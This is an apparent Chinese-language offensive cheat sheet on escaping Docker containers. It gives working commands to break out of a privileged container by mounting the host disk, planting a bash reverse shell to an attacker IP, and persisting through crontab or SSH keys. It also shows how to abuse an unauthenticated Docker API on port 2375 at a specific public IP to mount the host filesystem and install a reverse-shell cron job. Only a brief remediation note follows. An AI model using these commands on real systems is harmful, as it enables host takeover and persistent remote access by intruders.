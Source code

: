 
# docker 逃逸

启动时如果添加了 `--privileged` 参数，就会以特权模式启动docker，具备所有的Capabilities

```shell
# 1.1 方式1 查看是否在 docker中
ls -alh /.dockerenv
# 1.2 方式2
cat /proc/self/status|grep CapEff
## CapEff: 0000003fffffffff -- 以特权模式的

$ fdisk -l
# * Linux 表示是宿主机
## 如果通过特权模式启动容器，docker run --privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。
/dev/sda1  *        2048 16779263 16777216   8G 83 Linux


mkdir /test
mount /dev/sda1 /test

vi /test/tmp/test.sh
/bin/bash -i >& /dev/tcp/192.168.50.161/7777 0>&1 
#:wq 保存

# 攻击机
nc -lvp 7777

# 写入 crontab
sed -i '$a*/2 *    * * *    root  bash /tmp/test.sh ' /test/etc/crontab

# 或者写入authorized_keys 然后ssh
```

## docker 未授权

访问 http://your-ip:2375/version
```sh
docker -H tcp://47.92.7.138:2375 images
docker -H tcp://47.92.7.138:2375 ps -a
# 启动容器并将宿主机磁盘挂载到/mnt
docker -H tcp://47.92.7.138:2375 run -it -v /:/mnt --entrypoint /bin/bash ubuntu:18.04
cd /mnt/root/.ssh/
echo "ssh-rsa AAAAB3NzaC1yc2......." > authorized_keys

# 反弹shell -- 可通过 crontab -e 写入定时任务
* * * * * /bin/sh -i >& /dev/tcp/xxx.xxx.xxx.xxx./1111 0>&1
```


# 0x04 修复建议

1、对 2375 端口做网络访问控制，如 ACL 控制，或者访问规则；

2、修改 docker swarm 的认证方式，使用 TLS 认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS 这两篇文档，说的是配置好 TLS 后，Docker CLI 在发送命令到 docker daemon 之前，会首先发送它的证书，如果证书是由 daemon 信任的 CA 所签名的，才可以继续执行。

# Article

[一个未公开的容器逃逸方式](https://mp.weixin.qq.com/s/9aUQXGas-dY9i-zAWSCgMg)
[Docker安全（一）](https://mp.weixin.qq.com/s/qd2WYFhyVzbOEI72SAqNkQ)
[Docker安全（二）](https://mp.weixin.qq.com/s/D5oZv6ygHTZNrNajjCIMnA)
- [docker api未授权导致RCE的http方式利用](https://mp.weixin.qq.com/s/t9bTcJcAWxlAQDVB_kXj0Q)
